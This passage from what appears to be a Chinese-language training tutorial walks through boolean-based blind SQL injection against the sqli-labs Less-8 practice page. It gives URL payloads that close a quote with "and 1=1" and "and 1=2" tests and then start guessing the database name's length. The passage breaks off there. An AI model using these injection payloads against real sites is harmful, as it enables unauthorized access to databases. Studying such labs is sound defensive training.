 加单引号发现页面出现变化，但并并没有爆出错误。于是，我们采用上节课程的and 1=1.

![](img/2.7/5.png)

>http://39.98.88.18:8080/sql/Less-8/index.php?id=1' and 1=1 --+

![](img/2.7/6.png)

>http://39.98.88.18:8080/sql/Less-8/index.php?id=1' and 1=2 --+

![](img/2.7/7.png)

由上可知，单引号成功闭合。而且符合布尔型盲注的条件。

２．猜测数据库长度

>http://39.98.88.18:8080/sql/Less-8/index.php?id=1' and (length(database()))<10--+
